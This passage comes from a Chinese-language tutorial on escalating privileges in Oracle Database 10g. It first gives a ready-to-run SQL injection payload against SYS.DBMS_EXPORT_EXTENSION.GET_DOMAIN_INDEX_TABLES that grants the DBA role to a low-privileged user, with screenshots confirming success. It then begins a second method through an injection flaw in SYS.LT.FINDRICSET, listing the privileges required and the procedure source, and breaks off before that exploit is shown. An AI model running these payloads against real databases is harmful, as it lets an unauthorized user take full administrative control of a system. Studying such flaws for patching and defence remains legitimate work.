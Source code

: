 #### (2) 利用

``` sql
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to test2'''';END;'';END;--','SYS',0,'1',0) from dual;
```

直接执行即可

![1609605882639.png](https://i.loli.net/2021/03/06/iH8BNYstDhaKIvb.png)

可看到成功提权到DBA，并可以赋权：

![1609605910424.png](https://i.loli.net/2021/03/06/4wq8vCnx6z9LPOk.png)


### 3. LT.FINDRICSET

> 测试环境：
> Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - 64bit
> 
> 权限要求：
> + `CREATE SESSION`
> + `CREATE PROCEDURE`

该方法利用`SYS.LT.FINDRICSET`这个函数的注入漏洞来实现权限的提升


#### (1) 原理

看定义：

``` sql
PROCEDURE FINDRICSET( TABLE_NAME VARCHAR2, RESULT_TABLE VARCHAR2 DEFAULT '' )  
IS  
TABOWNER VARCHAR2(100);  
TABNAME VARCHAR2(100);  
RESOWNER VARCHAR2(100);  
RESNAME VARCHAR2(100);  
BEGIN  
SYS.LT_CTX_PKG.SETUSER ;

     TABOWNER := NVL(SUBSTR(UPPER(TABLE_NAME),1,INSTR(TABLE_NAME,'.')-1), SYS_CONTEXT('lt_ctx', 'current_schema'));
     TABNAME  := SUBSTR(UPPER(TABLE_NAME),INSTR(TABLE_NAME,'.')+1);

     IF ( RESULT_TABLE IS NOT NULL ) THEN
        RESOWNER := NVL(SUBSTR(UPPER(RESULT_TABLE),1,INSTR(RESULT_TABLE,'.')-1), SYS_CONTEXT('lt_ctx', 'current_schema'));
        RESNAME  := SUBSTR(UPPER(RESULT_TABLE),INSTR(RESULT_TABLE,'.')+1);
     END IF;

     IF ( RESULT_TABLE IS NOT NULL AND 
          NOT HASOUTPUTTABPRIVS( RESOWNER, RESNAME ) ) THEN SYS.WM_ERROR.RAISEERROR(SYS.LT.WM_ERROR_171_NO, 'insufficient privileges on the result table');
     END IF;

     SYS.LTRIC.FINDRICSET( TABOWNER, TABNAME, RESOWNER, RESNAME );


END;  
```
